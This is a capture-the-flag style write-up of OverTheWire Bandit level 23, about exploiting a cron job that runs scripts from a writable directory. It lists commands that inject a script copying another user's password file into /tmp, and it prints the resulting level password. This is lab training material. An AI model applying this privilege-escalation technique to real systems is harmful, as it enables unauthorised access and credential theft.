


## Level 23 – Exploiting a Cron Job Execution Directory

### 🧩 Challenge
Abuse a cron job that executes scripts from a writable directory to retrieve the password for the next level.

---

### 🔐 Access Details
Login name: bandit23  
Login password: Obtained from previous level  

---

### 🗂 What Was Available
A cron job named `cronjob_bandit24` was running periodically.  
It executed all scripts placed inside the directory:  
`/var/spool/$myname/foo`  
where `$myname` is the current username.

Any script placed in this folder would be executed as `bandit24`.

---

### ⚙️ Steps Performed
- cd /etc/cron.d  
- cat cronjob_bandit24  
- cat /usr/bin/cronjob_bandit24.sh  
- echo "cat /etc/bandit_pass/bandit24 > /tmp/...ak.txt" > /var/spool/bandit23/foo/ak.sh  
- chmod +x /var/spool/bandit23/foo/ak.sh  
- (wait for cron to run)  
- cat /tmp/...ak.txt  

---

### 📸 Proof of Work

**Understanding the cron job and where scripts are executed**  

-

**Injecting a script and reading the generated password file**  

---

### 🏁 Result
Password for the next level:  
gb8KRRCsshuZXI0tUuR6ypOFjizbF3G8

---

### 🧠 Why This Worked
The cron job runs every minute and executes every script inside the spool directory as `bandit24`.  
By placing a custom script there, the password file for `bandit24` was copied into a readable location.

---

### 🛡️ Skill Gained
Learning how writable cron execution directories can be exploited to run arbitrary commands as another user.
